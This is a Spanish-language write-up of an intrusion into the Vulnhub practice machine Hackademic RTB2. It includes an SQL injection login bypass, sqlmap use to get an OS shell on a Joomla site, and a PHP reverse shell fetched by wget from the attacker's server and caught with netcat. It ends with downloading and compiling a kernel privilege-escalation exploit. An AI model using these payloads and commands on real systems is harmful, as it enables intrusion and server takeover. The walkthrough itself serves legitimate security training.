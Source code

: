 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?font=xd&size=50&color=3CF700FF&background=FF000000&width=500&height=80&lines=HACKADEMIC_RTB2"></a>
</p>

<h1 align="center"></h1>

**[Descargar máquina]:**

Vulnhub: https://www.vulnhub.com/entry/hackademic-rtb2,18/

<h1 align="center"><img src="https://user-images.githubusercontent.com/75953873/182723256-9616db47-6dcd-4884-a26f-0bd69b382d29.png"></h1>

</br>

- *Paso 1:* Identificación de la máquina en la red con ArpScan. 
```
arp-scan --interface eth0 -l
```
![2](https://user-images.githubusercontent.com/75953873/182723636-8e6a7d2c-7280-4742-a5b3-17660bdd6a2e.png)

IP host: `192.168.25.131`

- *Paso 2:* Escanear todos los puertos que estén abiertos con Nmap. 
```
nmap -p- --open -sC -n -vvv 192.168.25.131
```
![3](https://user-images.githubusercontent.com/75953873/182724090-b60c5b67-0dd2-4a6c-83d7-01c541c00bef.png)

Puertos abiertos: [80,666]

- *Paso 3:* Detección de servicios y sistema operativo. 
```
nmap -p 80,666 -A 192.168.25.131
```
![4](https://user-images.githubusercontent.com/75953873/182724516-60843d6c-3ed8-4307-8345-7431696978a3.png)

Servidor corriendo: **HTTP Apache**

O.S: Linux (**Ubuntu**)

URL del servidor: `http://192.168.25.131`

![5](https://user-images.githubusercontent.com/75953873/182724778-d685a545-04c9-4e41-8a49-3058067bc121.png)

- *Paso 4:* Bypassear página con inyección SQL manual. 

Username: `' or 1=1--'`

Password: `' or 1=1--'`

![6](https://user-images.githubusercontent.com/75953873/182725260-0ebeb8c5-c0af-465d-b520-69816fb8b37a.png)

![7](https://user-images.githubusercontent.com/75953873/182725313-445bffd4-699b-404c-9304-80a514377bfa.png)

Al inspeccionar el código fuente, la etiqueta `<font>` contiene un texto ofuscado a hexadecimal.

![9](https://user-images.githubusercontent.com/75953873/182725970-78c8a7d8-80ea-4298-906f-7b8e9a898268.png)

```
%33%63%20%32%64%20%32%64%20%32%64%20%32%64%20%32%64%20%32%64%20%32%64%20%32%64%20%32%64%20%33%65%20%30%64%20%30%61%20%34%62%20%36%65%20%36%66%20%36%33%20%36%62%20%32%30%20%34%62%20%36%65%20%36%66%20%36%33%20%36%62%20%32%30%20%34%62%20%36%65%20%36%66%20%36%33%20%36%62%20%36%39%20%36%65%20%32%37%20%32%30%20%36%66%20%36%65%20%32%30%20%36%38%20%36%35%20%36%31%20%37%36%20%36%35%20%36%65%20%32%37%20%37%33%20%32%30%20%36%34%20%36%66%20%36%66%20%37%32%20%32%30%20%32%65%20%32%65%20%32%30%20%33%61%20%32%39%20%30%64%20%30%61%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%31%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%30%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%30%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%31%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%31%20%33%30%20%33%31%20%33%30%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%31%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%31%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%30%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%31%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%31%20%33%30%20%33%31%20%33%30%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%31%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%30%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%31%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%31%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%31%20%33%30%20%33%31%20%33%30%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%31%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%30%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%30%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%31%20%30%64%20%30%61%20%33%63%20%32%64%20%32%64%20%32%64%20%32%64%20%32%64%20%32%64%20%32%64%20%32%64%20%32%64%20%33%65%0A
```

- *Paso 5:* Decodificar mensaje de forma Online y con BurpSuite. 

**ONLINE:** https://www.online-toolz.com/langs/es/tool-es-text-hex-convertor.html

![10](https://user-images.githubusercontent.com/75953873/182726252-e5756ba4-5cf6-44ce-92a1-76971760b4d8.png)

**BURPSUITE:**

Decoder:
```
[Text] -> Decode as -> URL
[Hex] -> Decode as -> ASCII hex
[Text] -> Decode as -> Plain
```
![11](https://user-images.githubusercontent.com/75953873/182727019-7c7f2896-8299-42f1-ba58-d6e69c1d6545.png)

Decodificar cadena binaria: https://www.traductorbinario.com/
```
0 0 1 1 0 0 0 1   0 0 1 1 0 0 0 0   0 0 1 1 0 0 0 0   0 0 1 1 0 0 0 1   0 0 1 1 1 0 1 0   0 0 1 1 0 0 0 1   0 0 1 1 0 0 0 1   0 0 1 1 0 0 0 0   0 0 1 1 0 0 0 1   0 0 1 1 1 0 1 0   0 0 1 1 0 0 0 1   0 0 1 1 0 0 0 0   0 0 1 1 0 0 0 1   0 0 1 1 0 0 0 1   0 0 1 1 1 0 1 0   0 0 1 1 0 0 0 1   0 0 1 1 0 0 0 0   0 0 1 1 0 0 0 0   0 0 1 1 0 0 0 1 
```

![12](https://user-images.githubusercontent.com/75953873/182727491-9cdcf046-d840-4923-a7fd-1c5d0258a98c.png)

- *Paso 6:* Acceder al puerto 666 golpeado recursivamente los puertos `1001,1101,1011,1001` con Nmap. 
```
nmap -r -p 1001,1101,1011,1001 192.168.25.131
```
![13](https://user-images.githubusercontent.com/75953873/182728017-cd632ee0-4ae2-4f7e-8e8e-f78ee7450ebd.png)

URL con el puerto 666 abierto: `http://192.168.25.131:666`

![14](https://user-images.githubusercontent.com/75953873/182728213-b629fc94-5457-4086-b57d-f5b01b3aeb2a.png)

- *Paso 7:* Encontrar parámetro vulnerable a inyección SQLI. 

Navegando en el sitio web se puede observar que la "Lista de artículos de contenido" presenta una URL crítica.
```
sqlmap --url 'http://192.168.25.131:666/index.php?option=com_abc&view=abc&letter=List+of+content+items...&Itemid=3' --dbs --batch
```
![15](https://user-images.githubusercontent.com/75953873/182728721-92cf4596-2d56-4614-88c3-30419f27d7d7.png)

- *Paso 8:* Subir una shell a la base de datos `joomla`:
```
sqlmap --url 'http://192.168.25.131:666/index.php?option=com_abc&view=abc&letter=List+of+content+items...&Itemid=3' -D joomla --os-shell --batch
```
![16](https://user-images.githubusercontent.com/75953873/182729464-41340377-450f-45ff-94eb-4c9789aab291.png)

Editar la reverse shell PHP, moverla al directorio `/root` y subirla al servidor local:
```
cp /usr/share/webshells/php/php-reverse-shell.php /root
nano php-reverse-shell.php
mv php-reverse-shell.php reverseshell.php
```

**$ip:** La IP local de su máquina.

**$port:** 4444 (opcional).

![18](https://user-images.githubusercontent.com/75953873/182730094-c8c2f93f-b0a6-444f-9f84-b26f4efe6030.png)

![17](https://user-images.githubusercontent.com/75953873/182729943-7059e627-8c01-43bc-b0f6-572664c2773c.png)

Abrir servidor local con Python3:
```python
python3 -m http.server 80
```
![20](https://user-images.githubusercontent.com/75953873/182731305-a8adc335-e819-4e5c-9f1e-c388f900f595.png)

Descargar la reverse shell desde la shell obtenida de la base de datos:
```
wget http://192.168.1.9/reverseshell.php
```
![19](https://user-images.githubusercontent.com/75953873/182731485-6dd80b89-38fe-4aa6-a2c1-de63078be636.png)

- *Paso 9:* Poner a escucha de conexiones con Netcat:
```
nc -lvp 4444
``` 
Acceder al sitio donde se subio la reverse shell:

URL: `http://192.168.25.131:666/reverseshell.php`

![21](https://user-images.githubusercontent.com/75953873/182731893-d0f3e803-277c-422d-b78c-fd9f8c22c66d.png)

- *Paso 10:* Buscar y explotar versión del kernel:

![22](https://user-images.githubusercontent.com/75953873/182732251-c05c0ba1-7e2e-4da5-a75c-8676435d3a96.png)

```
searchsploit 2.6.3 | grep "RDS"
searchsploit -m 15285
```
![23](https://user-images.githubusercontent.com/75953873/182733308-febf508c-8e3b-42b7-ba66-9b3eb82b6494.png)

Abrir servidor local con Python3:
```python
python3 -m http.server 80
```

Descargar y compilar exploit en el directorio `/tmp`:
```
cd /tmp
wget http://192.168.1.9/15285.c
gcc 15285.c -o kernel
```
![24](https://user-images.githubusercontent.com/75953873/182735176-1cd40bee-e4d0-4956-bc1e-2e593608b292.png)
